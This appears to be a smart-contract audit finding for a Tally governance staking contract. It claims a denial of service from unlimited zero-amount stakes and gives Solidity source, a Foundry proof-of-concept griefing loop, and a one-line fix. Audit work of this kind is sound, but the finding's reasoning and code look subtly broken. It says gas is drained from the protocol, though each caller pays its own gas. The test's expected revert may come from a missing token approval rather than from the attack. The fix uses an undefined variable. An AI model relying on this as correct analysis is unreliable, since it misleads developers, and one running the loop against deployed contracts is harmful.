 Expert Tawny Sawfish

High

# Complete DOS of core staking functionality

## Summary

A malicious staker/user can completely disrupt the staking functionality of the protocol by a grieifing attack and drain all of the gas in the protocol or raise the gas costs to  a level where other stakers might find it difficult to stake.

## Vulnerability Detail

In the ```GovernanceStaker::stake()``` function there is no zero amount check which is a critical check.  A malicious attacker can run an infinite/large loop to drain all of the gas while staking Zero amount . 

Each malicious stake permanently deploys a new surrogate contract.

This leads to a complete DOS of the staking functionality of the protocol which is one of the core functionalities.


## Impact

1. Complete DOS of the staking functionality.
2.  Gas costs permanently increase for all other stakers.
3.  Drains all of the gas in the protocol.
4.  Makes the protocol economically unviable to use.

## Code Snippet

- [Staking functionalities](https://github.com/sherlock-audit/2024-11-tally/blob/043815089dfa4cb2ee3e4344839070c9c679ed52/staker/src/GovernanceStaker.sol#L348)

```solidity
  function stake(uint256 _amount, address _delegatee)
    external
    virtual
    returns (DepositIdentifier _depositId)
  {
    _depositId = _stake(msg.sender, _amount, _delegatee, msg.sender);
  }

 
  /// @notice Internal convenience methods which performs the staking operations.
  /// @dev This method must only be called after proper authorization has been completed.
  /// @dev See public stake methods for additional documentation.
  function _stake(address _depositor, uint256 _amount, address _delegatee, address _claimer)
    internal
    virtual
    returns (DepositIdentifier _depositId)
  {
    _revertIfAddressZero(_delegatee);
    _revertIfAddressZero(_claimer);

    //e Updates the rewardPerToken
    _checkpointGlobalReward();

    //e This is a deliberate design choice known as template method . This will be overriden by the
    // child contracts' implementation
    DelegationSurrogate _surrogate = _fetchOrDeploySurrogate(_delegatee);
    _depositId = _useDepositId();

    uint256 _earningPower = earningPowerCalculator.getEarningPower(_amount, _depositor, _delegatee);

    totalStaked += _amount;
    totalEarningPower += _earningPower;
    depositorTotalStaked[_depositor] += _amount;
    depositorTotalEarningPower[_depositor] += _earningPower;
    deposits[_depositId] = Deposit({
      balance: _amount.toUint96(),
      owner: _depositor,
      delegatee: _delegatee,
      claimer: _claimer,
      earningPower: _earningPower.toUint96(),
      rewardPerTokenCheckpoint: rewardPerTokenAccumulatedCheckpoint,
      scaledUnclaimedRewardCheckpoint: 0 //e No unclaimed rewards at the beggining
    });

    //q No tokens are being minted ..?
    _stakeTokenSafeTransferFrom(_depositor, address(_surrogate), _amount);
    emit StakeDeposited(_depositor, _depositId, _amount, _amount);
    emit ClaimerAltered(_depositId, address(0), _claimer);
    emit DelegateeAltered(_depositId, address(0), _delegatee);
  }


```
  
## POC(Proof Of Concept)

Add the following to  [staker/test/GovernanceStaker.t.sol](https://github.com/sherlock-audit/2024-11-tally/blob/main/staker/test/GovernanceStaker.t.sol)

```solidity 

function testFuzz_CanGriefStaking(address attacker,address depositor, uint256 legitimateAmount, address delegatee) public {
    vm.assume(attacker != depositor);
    vm.assume(attacker != address(0));
    vm.assume(depositor != address(0));

    legitimateAmount = _boundMintAmount(legitimateAmount);
    _mintGovToken(depositor,legitimateAmount);

    uint256 initialGas = gasleft();

    vm.startPrank(attacker);
    for(uint256 i=0;i<2000000;i++){
      address maliciousDelegatee = address(uint160(i+1));
       try govStaker.stake(0,maliciousDelegatee) {

       } catch {
        break;
       }
    }

    vm.stopPrank();
   
    // Recording gas consumed
    uint256 gasConsumed = initialGas - gasleft();
    
    // Now a legitimate depositor tries to stake
    vm.startPrank(depositor);
    vm.expectRevert();

    govStaker.stake(legitimateAmount, delegatee);
    vm.stopPrank();

    // Assert the attack's impact
    assertGt(gasConsumed, 1000000, "Attack should consume significant gas");
    
    
    console2.log("Gas consumed by attack:", gasConsumed);

  }



```



## Tool used

- Manual Review
- Foundry

## Recommendation

1. Add a zero amount validation to the ```GovernanceStaker.sol```

```solidity

  function stake(uint256 _amount, address _delegatee, address _claimer)
    external
    virtual
    returns (DepositIdentifier _depositId)
  { 
+++   require(amount >0 , "Cannot stake zero amount") ;
    _depositId = _stake(msg.sender, _amount, _delegatee, _claimer);
  }

```


